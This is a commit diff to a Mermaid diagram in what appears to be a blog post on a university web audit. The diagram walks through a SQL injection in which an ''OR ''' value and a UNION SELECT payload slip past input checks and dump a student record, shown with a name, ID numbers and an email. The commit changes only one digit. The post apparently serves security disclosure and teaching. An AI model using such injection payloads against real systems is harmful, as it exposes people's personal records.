

One commit to Zere0/zere0.github.io changed the second of 5 diagrams in _posts/2025-10-06-university-web-audit.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 1 other file, not shown here.

````diff
--- a/_posts/2025-10-06-university-web-audit.md
+++ b/_posts/2025-10-06-university-web-audit.md
@@ -129,9 +140,9 @@
 ```mermaid
 %%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
 flowchart TD
     B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
     C["National ID</br></br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -*"] --> E["quotes removed  ✅"]
     D --> G["UNION SELECT from STUDENT executes"]
     E --> G["UNION SELECT from STUDENT executes"]
-    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -* </br></br>and with enrollment number:</br>*'OR ''* </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000449 Fuertes Castro admin\@fi.upm.es G-553T</mark>"]
+    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -* </br></br>and with enrollment number:</br>*'OR ''* </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000009 Fuertes Castro admin\@fi.upm.es G-553T</mark>"]
 ```
````
